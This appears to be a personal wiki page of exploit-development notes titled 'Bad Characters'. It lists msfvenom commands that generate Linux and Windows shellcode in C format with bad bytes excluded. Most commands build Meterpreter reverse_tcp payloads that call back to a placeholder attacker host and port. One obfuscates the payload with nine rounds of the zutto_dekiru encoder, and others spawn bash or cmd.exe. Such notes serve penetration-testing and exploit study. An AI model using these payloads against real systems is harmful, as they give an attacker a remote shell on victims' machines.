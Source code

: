 # Bad Characters

When removing bad characters `msfvenom` will warn you by throwing an error that in case if the shellcode have problems try to use with [[Encoders|enoders]] to get around it. Here are the some specific payloads that I've played around with and this is the result I get:

## Linux

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c

$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c

$ msfvenom -p linux/x64/exec cmd=/bin/bash -b "\x00\x0a\x0d" -f c > payload-x64.c
```

## Windows

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x0a\x0d" -e x64/zutto_dekiru -i 9 -f c > payload-x64-enc.c

$ msfvenom -p windows/x64/exec cmd=cmd.exe -b "\x00\x0a\0xd" -f c > payload-x64.c
```